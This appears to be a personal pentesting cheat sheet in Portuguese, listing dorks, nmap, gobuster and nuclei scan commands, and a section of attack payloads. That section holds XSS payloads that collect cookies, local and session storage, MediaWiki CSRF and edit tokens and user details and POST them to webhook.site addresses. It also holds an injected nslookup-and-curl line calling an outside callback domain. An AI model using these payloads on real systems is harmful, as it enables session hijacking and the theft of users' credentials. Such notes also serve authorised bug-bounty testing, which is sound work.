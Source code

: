 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```
* **Bypass de filtro de iframe com xss onerror**
```
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">
```
* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```html
    <img src="invalid" onerror="
  var data = {
    cookies: document.cookie,
    localStorage: {},
    sessionStorage: {},
    mediawikiTokens: {},
    userInfo: {}
  };
  
  // Capturar todos os dados do localStorage
  for(var i=0; i<localStorage.length; i++) {
    var key = localStorage.key(i);
    data.localStorage[key] = localStorage.getItem(key);
  }
  
  // Capturar todos os dados do sessionStorage
  for(var i=0; i<sessionStorage.length; i++) {
    var key = sessionStorage.key(i);
    data.sessionStorage[key] = sessionStorage.getItem(key);
  }
  
  // Tenta obter tokens do MediaWiki especificamente
  try {
    if (typeof mw !== 'undefined' && mw.user && mw.user.tokens) {
      data.mediawikiTokens = {
        editToken: mw.user.tokens.get('editToken'),
        csrfToken: mw.user.tokens.get('csrfToken'),
        watchToken: mw.user.tokens.get('watchToken')
      };
    }
  } catch(e) {}
  
  // Informações do usuário
  try {
    if (typeof mw !== 'undefined' && mw.config) {
      data.userInfo = {
        userName: mw.config.get('wgUserName'),
        userId: mw.config.get('wgUserId'),
        pageName: mw.config.get('wgPageName'),
        canonicalNamespace: mw.config.get('wgCanonicalNamespace'),
        revisionId: mw.config.get('wgRevisionId'),
        articleId: mw.config.get('wgArticleId')
      };
    }
  } catch(e) {}
  
  fetch('https://webhook.site/ce0ff999-b412-490d-aa38-f946520e63b0', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
    ">

```
```
### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

### Server local

```bash
python3 -m http.server 1234
ngrok http 1234

(pra se usar o ngrok precisa do http.server, porém só o http.server já server como server interno, o ngrok o deixa publico)
```
## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)
- [Converter imagem em link pub](https://pngup.com/)


